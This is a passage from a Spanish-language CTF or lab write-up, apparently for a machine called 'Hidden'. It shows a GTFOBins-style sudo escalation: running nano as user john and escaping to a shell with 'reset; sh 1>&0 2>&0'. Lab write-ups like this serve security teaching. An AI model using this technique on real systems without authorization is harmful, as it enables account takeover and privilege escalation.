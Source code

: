 - Hago uso de la herramienta [Searchbins](https://github.com/r1vs3c/searchbins) que está basada en la página [GTFOBins](https://gtfobins.github.io/).

![19](/assets/img/writeups/Hidden/19.png)

- Y lo ponemos en práctica.

![14](/assets/img/writeups/Hidden/20.png)

`sudo -u john /usr/bin/nano`

`^R -> (Ctrl R) ^X -> (Ctrl X`

`reset; sh 1>&0 2>&0`

- Vemos que funciona, así que ahora vamos a por el siguiente usuario.

![21](/assets/img/writeups/Hidden/21.png)

- Hacemos uso de la herramienta.
